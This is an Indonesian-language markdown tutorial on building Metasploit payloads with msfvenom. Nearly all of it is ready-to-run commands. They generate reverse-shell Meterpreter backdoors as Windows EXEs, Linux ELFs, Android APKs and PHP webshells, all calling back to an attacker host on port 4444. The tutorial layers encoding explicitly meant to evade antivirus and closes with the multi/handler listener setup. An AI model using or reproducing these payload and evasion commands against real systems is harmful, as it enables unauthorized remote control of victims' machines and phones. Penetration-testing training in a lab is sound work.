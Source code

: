 # Membuat Payload dengan msfvenom

## A. Apa Itu msfvenom?

msfvenom adalah tool bawaan dari Metasploit yang digunakan untuk:

- Membuat payload eksploitasi (`reverse shell`, `Meterpreter`, `dll`)
- Meng-encode payload untuk menghindari antivirus
- Meng-output payload dalam berbagai format (`exe`, `elf`, `raw`, `c`, `dll`)

## B. Struktur Dasar Perintah msfvenom

```
msfvenom -p <payload> LHOST=<ip_attacker> LPORT=<port> -f <format_output> -o <nama_file>
```

**Keterangan:**

| Parameter | Fungsi |
|:--:|:--:|
| `-p` | Memilih jenis payload | 
| `LHOST` | IP lokal/attacker |
| `LPORT` |	Port listener di attacker |
| `-f` | Format file output (`exe`, `elf`, `raw`, `dll`) |
| `-o` | Nama file output |
| `-e` | Encoder yang digunakan |
| `-i` | Jumlah iterasi encoder |
| `-n` | Jumlah byte NOP (NOP sled) |

## C. Contoh Payload Windows

### 1. Payload Reverse TCP

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o shell.exe
```

Output: `shell.exe` (bisa dijalankan di sistem Windows)

### 2. Payload Dilengkapi Encoder

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o shell_encoded.exe
```

Encoding `5 kali` untuk menghindari deteksi AV

## D. Contoh Payload Linux

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf -o backdoor.elf
```

Output: file `ELF` untuk Linux

## E. Format Output yang Didukung

| Format |	Keterangan |
|:--:|:--:|
| `exe` | Windows executable |
| `elf` |	Linux executable |
| `raw` | Shellcode mentah |
| `c`	| Shellcode dalam array C |
| `python` | Shellcode untuk script Python |
| `asp, jsp, php`	| Webshell payload |
| `dll, macho, rb, dll`	| Format lainnya |

## F. Menampilkan Semua Payload yang Tersedia

```
msfvenom -l payloads
```

## G. Contoh Payload di Format C

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c
```

Output-nya cocok untuk disisipkan dalam exploit `C` manual.

## H. Membuat Web Payload (PHP/ASP/JSP)
Contoh Payload PHP:

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw -o shell.php
```

## I. Memasukkan Bad Characters

Untuk menghindari karakter tertentu seperti `\x00\x0a`, bisa tambahkan:

```
-b "\x00\x0a"
```

**Contoh:**

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -b "\x00\x0a" -f exe -o filtered_shell.exe
```

## J. Payload untuk Android

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -o backdoor.apk
```

## K. Listener di Metasploit

Setelah payload dijalankan di target, buka listener:

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
run
```

## Tips Tambahan

- Selalu uji payload di lab virtual.
- Gunakan encoding bila antivirus mendeteksi payload.
- Tambahkan `NOP sled` jika payload tidak stabil.
